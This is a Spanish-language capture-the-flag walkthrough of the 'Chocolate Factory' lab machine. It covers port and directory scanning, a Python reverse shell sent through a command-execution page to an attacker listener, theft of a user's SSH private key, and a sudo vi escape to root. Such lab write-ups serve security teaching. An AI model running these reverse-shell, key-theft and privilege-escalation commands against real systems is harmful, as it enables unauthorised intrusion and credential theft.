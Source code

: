 ```yaml
---
description: // Tutorial //
---
```


# Chocolate Factory

Identificamos los puertos abiertos de la maquina victima

```
nmap IP -Pn -p- -v -n --min-rate 3000
```

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (27).png" alt="" width="332"><figcaption></figcaption></figure>

</div>

Hacemos una fuerza bruta de los directorios y ficheros del dominio y nos encontramos con un login index.html y una pagina para donde hay un input para ejecutar comandos home.php, vamos a ir a esta ultima:&#x20;

```
gobuster dir -u http://IP:80/ -w DICTIONARY -x .php,.txt,.html
```

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (26).png" alt="" width="563"><figcaption></figcaption></figure>

</div>

Subimos comando para una revershell con python y nos ponemos en escucha por el puerto configurado en nuestra maquina atacante&#x20;

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-MAQUINA",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
nc -lvp 4444
```

<figure><img src="../../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

A continuacion, abrimos una shell interactiva

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export TERM=xterm
```

Dentro de la carpeta /var/www/html llama la atencion el fichero key\_rev\_key, si filtramos por string el fichero podemos observar la primea key

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (29).png" alt="" width="313"><figcaption></figcaption></figure>

</div>

Navegando por los directorios nos encontramos con un fichero donde se encuntra la clave publica y privada de ssh del usuario charlie&#x20;

```
cat /home/charlie/teleport
cat /home/charlie/teleport.pub
```

Ahora que tenemos el usuario y la clave privada accedemos a traves de ssh al usuario charlie&#x20;

```
chmod 600 id_rsa 
ssh -i id_rsa charlie@IP_victima
```

Accedemos a la flag de usuario

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

</div>

Podemos ver la password de charlie en el fichero validate.php

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

</div>

### Escalada de privilegios

```
Sudo -l
```

<figure><img src="../../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Buscamos informacion en GTFO sobre la escalad de privilegios con vi

```
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Introducimos la flag que nos encontramos en el script de pyhton para sacar la flag de root

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt="" width="459"><figcaption></figcaption></figure>

</div>
